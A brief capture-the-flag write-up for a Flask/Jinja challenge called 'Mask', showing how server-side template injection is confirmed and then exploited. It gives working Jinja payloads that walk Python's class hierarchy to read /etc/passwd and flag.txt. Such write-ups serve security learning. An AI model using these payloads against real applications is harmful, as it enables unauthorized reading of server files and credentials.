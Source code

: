 # Mask

This website was developed in Flask. And it uses Jinja as a template engine. this was specifically mentioned on the website.  

So there must be some kind of template injection, to check I submitted `{{ 40 + 2 }}` and it rendered `42` on the page.
![42](1.png)

Then I tried to get `/etc/passwd` with the following template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```
![etc/passwd](2.png)

It worked! Next thing to do was to find where the flag was stored, 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("flag.txt").read() }}
```
And it worked!
![Flag](3.png)

> ### LLS{server_side_template_injection_unmasked}